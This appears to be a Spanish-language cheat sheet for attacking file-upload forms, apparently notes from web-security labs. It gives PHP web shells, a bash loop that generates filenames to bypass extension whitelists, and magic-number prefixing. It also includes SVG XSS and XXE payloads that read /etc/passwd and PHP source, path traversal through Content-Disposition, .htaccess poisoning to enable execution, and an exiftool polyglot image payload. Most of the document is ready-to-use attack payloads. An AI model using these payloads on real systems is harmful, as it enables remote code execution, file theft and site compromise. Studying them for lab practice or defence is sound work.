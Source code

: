 #### Shells php útiles:

        <?php system($_GET['cmd']); ?>
        <?php echo file_get_contents('/home/carlos/secret'); ?>




#### Generar bash con wordlists para bypassear whitelists:

        for char in '%20' '%0a' '%00' '%0d0a' '/' '.\\' '.' '…' ':'; do
            for ext in '.php' '.phps' '.phtml' '.phar' '.php3' '.phtm'; do
                echo "shell$char$ext.jpg" >> wordlist.txt
                echo "shell$ext$char.jpg" >> wordlist.txt
                echo "shell.jpg$char$ext" >> wordlist.txt
                echo "shell.jpg$ext$char" >> wordlist.txt
            done
        done


#### Siempre agregar, previo al código malicioso un "tipo de archivo" en base a los magicnumbers:
        "
        GIFF8
        <?php .... ?>

#### XSS:

Añadir código malicioso en la metadata de los archivos.
sgv example:

        <svg xmlns="http://www.w3.org/2000/svg" version="1.1" width="1" height="1">
            <rect x="1" y="1" width="1" height="1" fill="green" stroke="black" />
            <script type="text/javascript">alert(window.origin);</script>
        </svg>


#### XXE:

leer un archivo en el servidor

        <?xml version="1.0" encoding="UTF-8"?>
        <!DOCTYPE svg [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
        <svg>&xxe;</svg>

#### Ver código fuente de un archivo php:

        <?xml version="1.0" encoding="UTF-8"?>
        <!DOCTYPE svg [ <!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=index.php"> ]>
        <svg>&xxe;</svg>


### File upload wth path transversal:
Podemos encontrarnos con que en algunos casos logramos subir un archivo malicioso, pero al momento de ejecutarlo en 
el servidor, este está impedido de ejecutarse mostrandonos el texto plano (si lo escondimos en una foto podríamos
intentar ejecutarla y que nada pase).
Esto se debe a que algunos servidores limitan la ejecución de código en directorios puntuales.
Para esto podemos combinar el path transversal agregándolo en la cabecera Content-Disposition:

###### Content-Disposition: form-data; name="avatar"; filename="../exploit.php" (debemos seguir todos los procedimientos de evación de filtros de path transversal si es que el servidor tiene alguna validación).
Luego, con el mismo path transversal podemos llamarlo. (puede que al momento de llamarlo, si debimos encodear el path}
transversal en la subida, no debamos encodearlo en la ejecución).

#### Blacklist bypass:
Fuerza bruta de extensión:
Si nos encontramos un filtro de blacklist, podemos hacer fuerza bruta sobre la extención del archivo malicioso buscando una extención permitida.

#### .htaccess poisoning/spoofing:

Podemos encontrarnos que no hay una extensión permitida dentro de las shells que necesitamos o que, aunque hubiera alguna, no hubiera permisos de ejecución. 
Podemos subir un archivo .htaccess envenenado que nos permita la ejecucion:

##### 1)repetimos la subida cabiando los siguientes parámetros:
        filename= .htaccess
        content-type = text/plain
        payload= AddType application/x-httpd-php .l33t (con esto habilitamos la ejecución de archivos con la extensión l33t)

##### 2)Subimos nuevamente la shell con la extensión ".l33t" y ejecutamos.

#### Recursión de extensiones:

Podemos también, si hay un filtro que busque por palabras puntuales y las elimine, sumar recursión a la extensión de
los archivos: shell.p.phphp

#### Polyglot php en una imagen:

        exiftool -Comment="<?php echo 'START ' . file_get_contents('/home/carlos/secret') . ' END'; ?>" <YOUR-INPUT-IMAGE>.jpg -o polyglot.php






